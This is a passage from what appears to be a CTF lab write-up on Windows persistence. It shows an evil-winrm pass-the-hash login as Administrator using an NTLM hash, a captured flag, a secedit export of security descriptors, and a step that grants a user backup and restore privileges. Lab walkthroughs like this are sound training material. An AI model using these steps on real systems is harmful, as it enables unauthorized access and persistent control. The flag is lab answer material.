         ```
        evil-winrm -i $IP -u Administrator -H f3118544a831e728781d780cfdb9c1fa
        ```
        
        ![task2-flag1-ans](./images/task2-flag1-ans.png)

* Insert flag2 here

    `THM{IM_JUST_A_NORMAL_USER}`

    * Export current configuration of Security Descriptors

        ```
        secedit /export /cfg config.inf
        ```

        ![task2-secedit](./images/task2-secedit.png)

    * Edit/add thmuser2 to **SeBackupPrivilege** and **SeRestorePrivilege** 
